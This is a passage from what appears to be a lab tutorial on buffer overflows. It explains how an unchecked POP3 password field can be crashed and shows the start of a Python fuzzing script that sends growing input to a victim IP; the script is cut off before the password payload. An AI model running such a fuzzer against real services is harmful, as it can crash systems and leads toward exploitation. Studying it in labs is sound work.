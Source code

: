 This is how it should be. If the developer forgets to be restrictive however, the application would happily accept the "101 Byte" long password.
Nothing prevents you to send even more data: "200 Bytes", "2000 Bytes" - the application will take it and puts all this data into it's memory.
At some point however, it will crash because you have overwritten vital parts of the application itself. We will see this in action shortly.
For now we just need to know how much data we need to send the "POP3" service until it crashes.

To accomplish that I wrote a small script that connects to the "POP3" service, sends the `USER` command with a username as shown in the last phase
and then the `PASS` command with junk data. For simplicity I choose the letter "A". Please check the comments in the code to get an overview of what it does:

{{< highlight python>}}
#!/usr/bin/python3

# Import of the socket library to connect to the POP3 service
# Import time to sleep 2 seconds to avoid Denial of Service
import socket
import time

# Victim IP and Port
host = "192.168.1.14"
port = 110

# A counter variable to keep track of the amount of 'A's we will sent
counter = 1000

# Loop until we've reached 5000 Bytes (5000 is just a guess - could be more, could be less)
while (counter < 5000):

        # Build a TCP SOCKET (stream) and use it to connect to victim IP & Port  
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        data = s.recv(1024)
        print(data)

        # Send USER command with Username x41
        s.send(b'USER x41\r\n')
        data = s.recv(1024)
        print(data)
